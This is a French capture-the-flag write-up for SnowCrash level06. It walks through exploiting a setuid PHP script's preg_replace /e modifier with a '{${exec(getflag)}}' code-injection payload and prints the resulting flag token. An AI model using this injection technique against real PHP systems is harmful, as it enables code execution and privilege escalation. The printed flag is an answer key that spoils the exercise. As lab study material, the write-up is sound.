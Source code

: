 Dans ce niveau il y a 2 fichiers:

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
On suppose que `level06.php` est la source de `level06`:
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
Ce qui nous interesse:
```php
#!/usr/bin/php
<?php
function y($m) {
	// $m = preg_replace("/\./", " x ", $m);
	// $m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y); // Lecture de fichier
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	// $a = preg_replace("/\[/", "(", $a);
	// $a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1]/*, $argv[2]*/);
print $r;
?>
```
Concretement on remplace le contenu du fichier pointé par `argv[1]` on remplace `[x <text>]` par `y("text")` et on l'affiche.

Dans les strings PHP `"{}"` permet d'[interpoler](https://phppot.com/php/variable-interpolation-in-php/) une variable ou une expression au sein d'une string, on va s'en servir pour injecter du code a l'aide de la fonction [`exec`](https://www.php.net/manual/en/function.exec.php).

On prepare donc la payload:
```
$> echo '[x {${exec(getflag)}}]' > /tmp/file
```
Et on l'execute:
```
./level06 /tmp/file   
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
Bon ok, ca crash, on aurait pu mieux faire la payload :woman_shrugging: :man_shrugging:  
Mais on a le flag ! :tada:
```
wiok45aaoguiboiki2tuin6ub
```
